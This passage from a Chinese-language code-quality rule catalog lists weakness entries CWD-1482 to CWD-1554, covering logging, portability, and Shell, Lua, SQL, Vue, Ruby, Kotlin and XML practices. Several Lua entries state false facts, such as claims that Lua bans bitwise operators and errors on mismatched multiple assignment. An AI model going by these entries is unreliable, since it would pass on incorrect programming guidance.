未使用占位符的方式进行字符串拼接，容易受到注入攻击，同时也会导致内存使用过多，影响程序性能。建议使用占位符的方式进行字符串拼接，例如使用Python中的format()函数或者f-string。在日志输出时，字符串变量之间的拼接使用占位符的方式，整个日志内容更清晰直观。这种方式可以避免注入攻击，同时也更加高效。另外，如果日志级别不匹配的话（比如LOGGER.info但是线上配置的是warn），直接省去了字符串拼接的消耗。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1482-000 日志输出时未使用占位符的方式进行字符串拼接

---

# CWD-1483 错误信息记录未保证以大写字母开头或存在导致语法不通的标点符号

**描述**
错误字符串以大写字母开头，或以标点符号结尾，和其他内容链接之后，最后出现的句子可能会出现中间大写单词、语法不通的逗号，导致语句难以阅读和理解。例如：


1. Go语言代码中输出错误/告警信息的字符串，除专有名词或缩略词外，应避免错误字符串以大写字母开头，或以标点符号结尾；因为通常错误信息会和其他内容组合之后输出。2. xml等配置文件中输出错误/告警信息的字符串，建议以大写字母开头。
**语言: **XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1483-000 错误信息记录未保证以大写字母开头或存在导致语法不通的标点符号

---

# CWD-1484 在JS文件中使用JSX语法而不进行正确的编译或转换

**别名: **JS文件中包含JSX语法

**描述**
禁止给定的文件扩展名内包含JSX片段，使JSX只存在特定的文件类型中。JSX语法是一种JavaScript的扩展语法，用于在React中描述UI组件的结构和样式。将JSX语法直接包含在JS文件中可能会导致编译错误或运行时错误，因为JSX语法需要通过编译器或转换器进行转换才能被浏览器或Node.js解析。如果未正确配置编译器或转换器，将JSX语法包含在JS文件中可能会导致JavaScript代码无法正确解析或执行，从而导致应用程序崩溃或安全漏洞。

**语言: **JAVASCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1484-000 在JS文件中使用JSX语法而不进行正确的编译或转换

---

# CWD-1485 使用已过时或弃用方法

**描述**
代码中使用已过时或弃用（Obsolete）函数、tag属性等，这些可能不再被维护、修复或支持，可能会导致软件出现安全漏洞、崩溃或其他问题。因此，建议定期对代码进行审查，检测和修复使用过时函数的代码，并使用替代函数或最新的API，以确保代码的安全性和稳定性。

**语言: **JAVASCRIPT,TYPESCRIPT,ARKTS,LUA,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1485-000 使用已过时或弃用方法

**业界缺陷**

- [CWE-477: Use of Obsolete Function](https://cwe.mitre.org/data/definitions/477.html)
---

# CWD-1486 函数添加"throw"异常说明

**描述**
给函数加throw(...) 异常说明的语法，从C++11开始被弃用，在C++17中被去除（ throw() 在C++20中被去除）。现代的C++中，除非函数不抛任何异常（通过noexcept 标记），否则无需专门标记。

**语言: **CPP,JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1486-000 函数添加"throw"异常说明

---

# CWD-1487 发布版本中包含调试代码

**描述**
调试代码是为了测试和调试目的，如果在发布版本中启用了调试代码，可能会创建意外的入口点或公开敏感信息。因此，在发布软件到生产环境之前，必须删除所有调试代码。

**语言: **JAVASCRIPT,TYPESCRIPT,SHELL,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1487-000 发布版本中包含调试代码

**业界缺陷**

- [CWE-489: Active Debug Code](https://cwe.mitre.org/data/definitions/489.html)
---

# CWD-1488 违反对象模型：只定义了Equals和Hashcode中的一个

**描述**
没有为相等的对象维护相等的hashcode值（相等的对象hashcode值必须相同）。例如：如果a.equals(b) == true，则a.hashCode() == b.hashCode()。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1488-000 违反对象模型：只定义了Equals和Hashcode中的一个

**业界缺陷**

- [CWE-581: Object Model Violation: Just One of Equals and Hashcode Defined](https://cwe.mitre.org/data/definitions/581.html)
---

# CWD-1489 未覆写equals的HashCode比较逻辑

**描述**
当对象需要进行逻辑相等的比较时（比如判断String、Integer对象中的值是否相同），应对Object的equals()方法进行覆写，实现具体的判断逻辑。覆写equals()方法时，要同步覆写hashCode()方法。Java对象在存放到基于Hash的集合（如HashMap、HashTable等）时，会使用其Hash码进行索引，如果只覆写了equals()方法，而没有正确覆写hashCode()方法，则会导致效率低下甚至出错。

**语言: **JAVA,RUST,KOTLIN,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1489-000 未覆写equals的HashCode比较逻辑

---

# CWD-1490 未正确覆写equals的HashCode比较逻辑

**描述**
只覆写了equals方法，而没有正确地覆写hashCode方法，两个对象在equals方法比较相等时，但它们的hashCode值却不相等，会导致它们在HashMap或HashSet等集合中被认为是不同的对象。

**语言: **JAVA,KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1490-000 未正确覆写equals的HashCode比较逻辑

---

# CWD-1491 在自动生成的代码中依赖指定的运行时组件

**描述**
自动生成的代码可能会受到运行时组件的安全性的影响。又因为是自动生成的代码，可能会使发现/修复问题变得更加困难。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1491-000 在自动生成的代码中依赖指定的运行时组件

**业界缺陷**

- [CWE-1101: Reliance on Runtime Component in Generated Code](https://cwe.mitre.org/data/definitions/1101.html)
---

# CWD-1492 未考虑平台差异性

**描述**
行为或功能在不同的平台或系统中可能有所不同，不考虑这些差异可能会导致兼容性、可移植性问题。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1492-000 未考虑平台差异性

**业界缺陷**

- [CWE-1102: Reliance on Machine-Dependent Data Representation](https://cwe.mitre.org/data/definitions/1102.html)
---

# CWD-1493 捕获信号时未考虑平台差异性

**描述**
在捕获信号时，信号值可能因平台而异，导致脚本跨平台不兼容。因此，在脚本中捕获信号时，优先使用固定的信号名称，以确保跨平台的可移植性。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1493-000 捕获信号时未考虑平台差异性

---

# CWD-1494 路径分隔符未考虑平台差异性

**描述**
不同的平台使用不同的字符作为路径分隔符。例如，Windows系统使用\，而UNIX系统使用/。当应用程序必须在不同的平台上运行时，使用错误的路径分隔符可能会导致应用程序逻辑执行不正确。

**语言: **C,CPP,JAVA,PYTHON,SHELL,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1494-000 路径分隔符未考虑平台差异性

---

# CWD-1495 换行符未考虑平台差异性

**描述**
LF（换行，Line Feed）和CRLF（回车换行，Carriage Return Line Feed）是两种常见的行尾结束符格式。不同的操作系统可能采用不同的行尾结束符格式。例如，Unix和Linux系统通常使用LF作为行尾结束符，而Windows系统则使用CRLF。在项目文件中混用LF和CRLF行尾结束符可能会导致文件格式不一致，难以协作和维护代码。

**语言: **C,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1495-000 换行符未考虑平台差异性

---

# CWD-1496 使用环境变量未考虑平台差异性

**描述**
为了最大限度地提高可移植性，当系统属性中有相同的值时，永远不要引用环境变量。例如，如果操作系统提供了用户名，它将始终在系统属性user.name中可用。可移植性只是不应该依赖环境变量的一个原因。攻击者可以使用java.lang.ProcessBuilder类之类的机制来控制进入程序的所有环境变量。因此，当环境变量包含可通过其他方式（包括系统属性）获得的信息时，不得使用该环境变量，并且必须正确验证所使用的环境变量。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1496-000 使用环境变量未考虑平台差异性

---

# CWD-1497 使用汇编语言未考虑平台差异性

**描述**
代码中使用汇编语言可能会带来可移植性差的问题，汇编代码通常是平台相关的，如果使用汇编语言编写代码，想要将其移植到其他平台上，需要进行大量的修改和重写，增加了开发和维护成本，降低了代码的可维护性和可重用性。因此，建议尽量避免使用汇编语言，改用高级语言编写代码，以提高代码的可移植性和可维护性。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1497-000 使用汇编语言未考虑平台差异性

---

# CWD-1498 使用与平台相关的第三方组件

**描述**
源代码依赖于与平台相关联的第三方组件，这些组件无法在所有期望的平台上提供等效的功能。该问题增加了产品的维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1498-000 使用与平台相关的第三方组件

**业界缺陷**

- [CWE-1103: Use of Platform-Dependent Third Party Components](https://cwe.mitre.org/data/definitions/1103.html)
---

# CWD-1499 使用依赖平台的库或方法

**描述**
使用非跨操作系统平台的库或方法，会导致程序无法在其他操作系统正常运行。

**语言: **C,CPP,JAVA,PYTHON,SHELL,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1499-000 使用依赖平台的库或方法

---

# CWD-1500 程序依赖于存在漏洞的第三方组件

**描述**
如果应用程序使用的第三方组件存在漏洞且未及时更新或修补，攻击者可能会利用这些漏洞绕过应用程序的安全措施，危害应用程序和相关数据。因此，应用程序应该定期更新和修补第三方组件以确保安全性。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1500-000 程序依赖于存在漏洞的第三方组件

**业界缺陷**

- [CWE-1395: Dependency on Vulnerable Third-Party Component](https://cwe.mitre.org/data/definitions/1395.html)
---

# CWD-1501 导入了可能不被维护/有风险的包

**描述**
避免从“sun.*”包中导入任何内容。这些包不可移植并且可能会发生变化。

**语言: **CPP,JAVA,PYTHON,GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1501-000 导入了可能不被维护/有风险的包

---

# CWD-1502 不合理的测试用例

**描述**
如果测试用例不合理，可能无法全面地覆盖被测试程序的各种场景和功能，导致测试结果不准确，无法发现程序中的缺陷、错误和漏洞。

**语言: **CPP,JAVA,PYTHON,GO,TYPESCRIPT,SHELL,ARKTS,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1502-000 不合理的测试用例

---

# CWD-1503 使用告警抑制器来抑制工具检测

**描述**
只在必要的情况下使用警告抑制器，而不是在整个代码中都使用它们。在使用警告抑制器时，确保只抑制与当前问题相关的警告。尝试使用更具体的警告抑制器，而不是使用通用的抑制器。将警告抑制器放在尽可能接近问题的位置，以便更容易理解和维护。总的来说，减少警告抑制器的使用是一种良好的编程实践，可以提高代码的可维护性和可读性。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1503-000 使用告警抑制器来抑制工具检测

---

# CWD-1504 SHELL不良实践

**描述**
SHELL编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1504-000 SHELL不良实践

---

# CWD-1505 SHELL不良实践：使用无效的管道进行命令组合

**描述**
shell语句中，有一些命令是不会从stdin中读取信息的（比如echo、ls、rm、cp、true命令），这些命令无法使用管道进行组合。

**语言: **JAVA,SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1505-000 SHELL不良实践：使用无效的管道进行命令组合

---

# CWD-1506 SHELL不良实践：未正确使用双方括号和方括号

**描述**
shell语句中，在 [[ 和 ]] 之间不会有路径名称扩展或单词分割发生，所以使用 [[ ... ]] 能够减少错误。另外，[[ ... ]] 允许正则表达式匹配，而 [ ... ] 不允许，因此在需要进行正则表达式匹配时请使用[[ ... ]]。

**语言: **SHELL,LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1506-000 SHELL不良实践：未正确使用双方括号和方括号

---

# CWD-1507 SHELL不良实践：未正确换行导致shell语句解析错误

**描述**
shell语句中，如果一行容得下整个管道操作，那么请将整个管道操作写在同一行。否则，应该将整个管道操作分割成每行一个管道，管道操作的下一部分应该将管道符放在新行。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1507-000 SHELL不良实践：未正确换行导致shell语句解析错误

---

# CWD-1508 SHELL不良实践：错误的shell语法

**描述**
shell语法错误会导致程序运行异常。请编写语法正确的、能被解释器正确解析的脚本。例如()、[]、do\done、EOF、if\fi的成对出现，空格的正确使用等。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1508-000 SHELL不良实践：错误的shell语法

---

# CWD-1509 SHELL不良实践：ssh操作未实现逐行读取文件

**描述**
使用while逐行读取文件并执行ssh操作时，ssh命令需增加-n参数。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1509-000 SHELL不良实践：ssh操作未实现逐行读取文件

---

# CWD-1510 SHELL不良实践：流合并操作未放在行尾

**描述**
流合并操作 2>&1 如果放在一行的中间部分，是无法达到预期效果的，必须放在行尾。2>&1表示将错误输出合并到标准输出；当然也可以将标准输出合并到错误输出，例如1>&2或>&2。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1510-000 SHELL不良实践：流合并操作未放在行尾

---

# CWD-1511 SHELL不良实践：trap命令捕获SIGKILL和SIGSTOP信号

**描述**
SIGKILL和SIGSTOP信号不能被捕获。因此，禁止trap命令捕获SIGKILL和SIGSTOP信号。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1511-000 SHELL不良实践：trap命令捕获SIGKILL和SIGSTOP信号

---

# CWD-1512 SHELL不良实践：不正确的创建软链接方法

**描述**
当链接文件已存在时，且指向的目标类型为目录时，通过ln命令新建链接，命令返回成功，但实际没有达到目的，而是在原目标目录内产生了一个链接文件。因此，在使用ln命令前，判断并移除需要创建的文件。

**语言: **SHELL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1512-000 SHELL不良实践：不正确的创建软链接方法

---

# CWD-1513 LUA不良实践

**描述**
LUA编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1513-000 LUA不良实践

---

# CWD-1514 LUA不良实践：函数内定义只读表变量

**描述**
LUA函数内只读表变量不应该定义，建议在函数外定义。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1514-000 LUA不良实践：函数内定义只读表变量

---

# CWD-1515 LUA不良实践：函数中定义全局变量

**描述**
禁止在函数中定义全局变量。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1515-000 LUA不良实践：函数中定义全局变量

---

# CWD-1516 LUA不良实践：使用位运算符

**描述**
Lua不允许使用位运算符，包括按位与（&）、按位或（|）、按位异或（）、左移（<<）和右移（>>）。但是，Lua提供了一些函数来模拟位运算，例如bit32库中的函数。另外，Lua也支持位运算符的等效操作符，例如按位与可以用逻辑运算符and代替，按位或可以用逻辑运算符or代替，按位异或可以用逻辑运算符=(不等于)代替，左移可以用数学运算符*代替，右移可以用数学运算符//代替。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1516-000 LUA不良实践：使用位运算符

---

# CWD-1517 LUA不良实践：对全局变量进行修改

**描述**
LUA中全局的变量指没有local修饰的变量，不管是跨模块的，还是本模块的，都不可以修改。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1517-000 LUA不良实践：对全局变量进行修改

---

# CWD-1518 LUA不良实践：require的错误用法

**描述**
在Lua编程语言中，require()函数是用来加载Lua模块的函数。它的作用是在当前Lua程序中加载指定的模块，并返回该模块中定义的函数或者变量。如果错误使用require()函数，可能导致程序执行不符合预期或者错误执行。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1518-000 LUA不良实践：require的错误用法

---

# CWD-1519 LUA不良实践：对不连续的数组表求长度

**描述**
LUA中不连续的数组表，即表含有值为nil的成员，进行#求表长操作，得到错误的长度值。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1519-000 LUA不良实践：对不连续的数组表求长度

---

# CWD-1520 LUA不良实践：pub类文件未使用pcall调用

**描述**
在LUA中，pcall函数可以捕获函数调用时的错误，避免程序因为错误而中断。如果pub类文件未使用pcall调用，在函数调用时出现错误时，程序可能会崩溃或出现其他异常情况，影响程序的稳定性和安全性。建议在调用pub类文件的函数时，使用pcall函数捕获错误。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1520-000 LUA不良实践：pub类文件未使用pcall调用

---

# CWD-1521 LUA不良实践：使用错误的函数判断表中有无记录

**描述**
在LUA中，不能使用函数spt_QueryCount、spt_GetNextRecord判断表中有无记录。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1521-000 LUA不良实践：使用错误的函数判断表中有无记录

---

# CWD-1522 LUA不良实践：函数中对一个消息重复解析

**描述**
在LUA中，在一个函数内，对同一消息不要做多次解析。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1522-000 LUA不良实践：函数中对一个消息重复解析

---

# CWD-1523 LUA不良实践：文件/函数内使用的变量未使用local修饰符

**描述**
在LUA中，只在本文件内使用，定义前要加local修饰。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1523-000 LUA不良实践：文件/函数内使用的变量未使用local修饰符

---

# CWD-1524 LUA不良实践：函数内建立了嵌套表

**描述**
在LUA中，函数内不建议创建嵌套表。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1524-000 LUA不良实践：函数内建立了嵌套表

---

# CWD-1525 LUA不良实践：存在多个脚本共同组成一个模块

**描述**
LUA脚本需要设计成一个module模块和一个脚本文件一一对应的方式，禁止多个脚本文件共同组成一个模块。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1525-000 LUA不良实践：存在多个脚本共同组成一个模块

---

# CWD-1526 LUA不良实践：未加模块名调用外部接口

**描述**
在LUA中，对于外部函数，需带模块名调用。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1526-000 LUA不良实践：未加模块名调用外部接口

---

# CWD-1527 LUA不良实践：使用未定义的函数

**描述**
尝试调用一个未定义的函数。例如，在 Lua 中，如果你尝试调用一个未定义的函数，你会得到一个"调用未定义的函数"的错误。为了解决这个问题，需要确保代码中定义了所有尝试调用的函数。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1527-000 LUA不良实践：使用未定义的函数

---

# CWD-1528 LUA不良实践：脚本使用{}作为比较表达式的左值或右值

**描述**
在LUA中，{}是一个构造表达式，每一次执行{}都创建了一个新的表。用{}作为比较表达式的左值或右值来实现判断表是否为空会导致逻辑错误。

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1528-000 LUA不良实践：脚本使用{}作为比较表达式的左值或右值

---

# CWD-1529 LUA不良实践：多值赋值语句中左值右值个数不匹配

**描述**
在 Lua 语言中，多值赋值语句的左值和右值的个数必须匹配。如果左值和右值的个数不匹配，那么 Lua 解释器会抛出一个错误。例如，以下代码会导致错误:

```lua
 a, b = c, d, e
```

在这个例子中，左值有两个，分别是 a 和 b,但是右值有三个，分别是 c 、 d 和 e 。因此，Lua 解释器会抛出一个错误。要解决这个问题，你需要确保左值和右值的个数匹配。例如，如果你想将 c 、 d 和 e 分别赋值给 a 、 b 和 c,你可以这样写:

```lua
a, b, c = c, d, e```
这样就不会出现错误了。
```

**语言: **LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1529-000 LUA不良实践：多值赋值语句中左值右值个数不匹配

---

# CWD-1530 SQL不良实践

**描述**
SQL编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **JAVA,ARKTS,SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1530-000 SQL不良实践

---

# CWD-1531 SQL不良实践：查询条件左侧出现表达式

**描述**
SQL查询条件中的条件判定的左侧出现了表达式，导致无法命中索引，出现性能问题。

**语言: **PYTHON,SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1531-000 SQL不良实践：查询条件左侧出现表达式

---

# CWD-1532 SQL不良实践：索引使用错误

**描述**
SQL中主键索引和唯一键索引都是用来保证表中某一列的唯一性。只允许创建主键/唯一键索引。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1532-000 SQL不良实践：索引使用错误

---

# CWD-1533 SQL不良实践：引用表字段时未加表别名

**描述**
SQL引用字段需加表别名，代码阅读更清晰。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1533-000 SQL不良实践：引用表字段时未加表别名

---

# CWD-1534 SQL不良实践：使用无意义的表别名

**描述**
在SQL中，禁止使用无意义的表别名，比如使用“t1”、“t2”等无意义别名。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1534-000 SQL不良实践：使用无意义的表别名

---

# CWD-1535 SQL不良实践：SQL索引超过{count}个字段范围

**描述**
SQL索引超过一定数量的字段范围，可能会导致以下问题：


1. 索引过多会占用大量的磁盘空间，导致数据库性能下降。2. 索引过多会增加写操作的时间，因为每次插入、更新或删除数据时，都需要更新相应的索引。3. 索引过多会增加查询操作的时间，因为查询时需要扫描更多的索引。4. 索引过多会导致查询优化器难以选择最优的索引，从而导致查询性能下降。
因此，应该避免在一个表中创建过多的索引。如果需要创建多个索引，可以考虑将表拆分成多个小表，并为每个小表创建适当数量的索引。此外，应该仔细考虑每个索引的必要性，只为那些经常用于查询的列创建索引。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1535-000 SQL不良实践：SQL索引超过{count}个字段范围

---

# CWD-1536 SQL不良实践：未使用动态日期

**描述**
SQL脚本中不应写死日期，应使用动态日期。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1536-000 SQL不良实践：未使用动态日期

---

# CWD-1537 SQL不良实践：表关联数量过多

**描述**
在SQL中，关联的表数量过多，导致扫描行数大幅度增加，不适合互联网应用高并发的场景。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1537-000 SQL不良实践：表关联数量过多

---

# CWD-1538 VUE不良实践

**描述**
VUE编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **JAVA,JAVASCRIPT,TYPESCRIPT,SQL

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1538-000 VUE不良实践

---

# CWD-1539 VUE不良实践：被ref函数包装成对象的变量不能直接进行运算

**描述**
VUE中使用`ref`函数包装后的变量是一个对象，不能直接进行运算。需要通过访问其`value`属性来获取和修改其值。

**语言: **JAVASCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1539-000 VUE不良实践：被ref函数包装成对象的变量不能直接进行运算

---

# CWD-1540 VUE不良实践：出现未通过$refs使用的ref引用

**描述**
如果在 Vue 中出现未通过$refs 使用的 ref 引用，可能是因为在组件中没有正确地设置 ref 属性。在 Vue 中，ref 属性用于在组件中引用 DOM 元素或子组件。要使用$refs,必须在组件中设置 ref 属性。

**语言: **JAVASCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1540-000 VUE不良实践：出现未通过$refs使用的ref引用

---

# CWD-1541 VUE不良实践：未对v-bind具有true值进行简写

**描述**
vue中，使用组件时，v-bind具有true值通常可以写成简写形式。这可以减少冗长。

**语言: **JAVASCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1541-000 VUE不良实践：未对v-bind具有true值进行简写

---

# CWD-1542 VUE不良实践：定义组件属性类型时未使用构造器

**描述**
定义vue组件属性类型的时候，需要使用构造器，而不是字符串。

**语言: **JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1542-000 VUE不良实践：定义组件属性类型时未使用构造器

---

# CWD-1543 VUE不良实践：template模板的任意元素中使用 v-html属性

**描述**
禁止使用 v-html，防止将不安全的html插入浏览器而导致跨站脚本攻击(XSS)。建议使用插值表达式渲染文本，或使用渲染组件。

**语言: **JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1543-000 VUE不良实践：template模板的任意元素中使用 v-html属性

---

# CWD-1544 RUBY不良实践

**描述**
RUBY编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1544-000 RUBY不良实践

---

# CWD-1545 RUBY不良实践：使用method_missing调用不存在的方法

**描述**
在Ruby中，`method_missing`方法可以用于处理调用不存在的方法的情况。但是，由于它的使用可能会导致一些问题，因此应该尽可能避免使用。

**语言: **RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1545-000 RUBY不良实践：使用method_missing调用不存在的方法

---

# CWD-1546 RUBY不良实践：定义单行或多行区块不合规

**描述**
当ruby需要定义区块时，如果是单行区块，使用->去定义，如果是多行区块则使用lambda关键字。

**语言: **RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1546-000 RUBY不良实践：定义单行或多行区块不合规

---

# CWD-1547 KOTLIN不良实践

**描述**
KOTLIN编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1547-000 KOTLIN不良实践

---

# CWD-1548 KOTLIN不良实践：单一表达式未使用简洁的表达式主体语法

**描述**
单一表达式未使用简洁的表达式主体语法。这种做法可能会导致代码难以理解和维护，因为它可能会使代码变得冗长和复杂。如果函数或者属性的主体只包含一个单一的表达式，那么应该使用表达式主体语法。例如：

```kotlin
fun square(x: Int): Int { // 不简洁
    return x * x
}
fun square(x: Int): Int = x * x // 单一的表达式使用表达式主体语法
```

为了避免这种不良实践，开发者应该尽可能地使用简洁的表达式主体语法，以提高代码的可读性和可维护性。

**语言: **KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1548-000 KOTLIN不良实践：单一表达式未使用简洁的表达式主体语法

---

# CWD-1549 XML不良实践

**描述**
XML编码中，使用了不符合语法或不符合规约的代码，增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1549-000 XML不良实践

---

# CWD-1550 XML不良实践：XML配置有误

**描述**
XML配置有误是XML不良实践的一种，它通常指的是XML文件中存在错误的配置信息，导致程序无法正常运行或者出现异常。XML文件通常用于存储配置信息：例如：Web应用程序的配置文件web.xml、Spring框架的配置文件applicationContext.xml等。如果XML文件中存在错误的配置信息，就会导致程序无法正常运行。常见的XML配置错误包括：


1. 标签未闭合或闭合位置错误，例如缺少结束标签、标签大小写不一致等。2. 属性值未加引号或引号不匹配，例如属性值包含特殊字符、属性值中包含引号等。3. 标签嵌套错误，例如标签嵌套顺序错误、标签嵌套层次过深等。4. XML声明或命名空间错误，例如XML声明格式错误、命名空间前缀未定义等。为避免XML配置错误，应该遵循XML规范，使用专业的XML编辑器进行编辑，并进行严格的XML验证。同时，开发人员应该具备良好的XML编写能力和规范意识，避免出现常见的XML配置错误。
**语言: **LUA,XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1550-000 XML不良实践：XML配置有误

---

# CWD-1551 XML不良实践：XML命令行建模有误

**描述**
XML命令行建模是一种将XML文档转换为对象模型的技术，但如果不正确使用，可能会导致建模有误。以下是一些XML不良实践：


1. 不正确的XML格式：XML文档必须符合XML标准，否则可能无法正确解析。例如，缺少结束标签或属性值没有引号等。2. 不正确的命名约定：XML元素和属性应该使用具有意义的名称，以便于理解和维护。不应该使用缩写、无意义的名称或者混合大小写等。3. 不正确的嵌套：XML元素应该按照正确的层次结构嵌套。不应该出现交叉嵌套或者未正确关闭的元素等。4. 不正确的数据类型：XML元素和属性应该使用正确的数据类型，例如字符串、数字、日期等。不应该使用不明确的数据类型或者混淆数据类型。5. 不正确的注释：XML文档中应该包含注释，以便于理解和维护。不应该使用无意义的注释或者没有注释。
**语言: **XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1551-000 XML不良实践：XML命令行建模有误

---

# CWD-1552 FILE不良实践

**描述**
FILE文件中，使用了不符合语法或不符合规约的代码（主要针对数通自定义的FILE文件），增加了应用程序中存在可利用漏洞的机会。这些弱点并不直接引入漏洞，而是表明源代码没有经过精心的开发或维护。如果一个程序很复杂，难以维护，不能移植，或者显示出疏忽的迹象，那么代码中隐藏着弱点的可能性就更高。

**语言: **FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1552-000 FILE不良实践

---

# CWD-1553 补丁不良实践

**描述**
未遵循补丁相关策略。（如：补丁分支管理规范，补丁评审规范，ORM发布规范，等）

**语言: **FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1553-000 补丁不良实践

---

# CWD-1554 命名不合规约

**描述**
